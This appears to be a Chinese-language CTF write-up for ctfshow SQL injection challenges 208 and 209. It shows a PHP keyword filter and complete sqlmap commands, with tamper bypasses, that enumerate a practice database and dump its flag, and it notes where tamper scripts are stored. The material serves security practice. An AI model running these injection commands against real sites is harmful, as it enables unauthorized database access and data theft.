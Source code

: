 ## web 208

过滤了select,可以双写绕过或者大写绕过

```php
//对传入的参数进行了过滤
// $id = str_replace('select', '', $id);
  function waf($str){
   return preg_match('/ /', $str);
  }
```

看了大佬们是写tamper脚本，不清除这个脚本怎么写，后续可能补上。

sqlmap使用是sql语句默认是大写，所以可以使用上一题的payload

 ```bash
# 爆数据库   ctfshow_web
sqlmap -u https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --safe-url https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库来爆表名     ctfshow_flaxcac
sqlmap -u https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web --tables --safe-url https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库,表爆字段   flagvca,id,tes
sqlmap -u https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxcac --columns --safe-url https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxcac -C flagvca --dump --safe-url https://71680709-842f-4fee-b0fe-c4373c516436.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
```

## web 209

前面看别人修改sqlmap的脚本，不知道路径，现在突然想到了。做题需要当场修改脚本到`/usr/share/sqlmap/tamper/`

::: tip
补充：[【Sqlmap Tamper 编写】](https://y4er.com/posts/sqlmap-tamper/)
建议跟着做一下，补充能量。
:::

```bash
whereis sqlmap # 查看sqlmap路径，得到/usr/share/sqlmap
ls /usr/share/sqlmap/tamper/ # 查看tamper所有脚本
```

![scripts](https://the0n3.top/medias/show-sql/script.png)
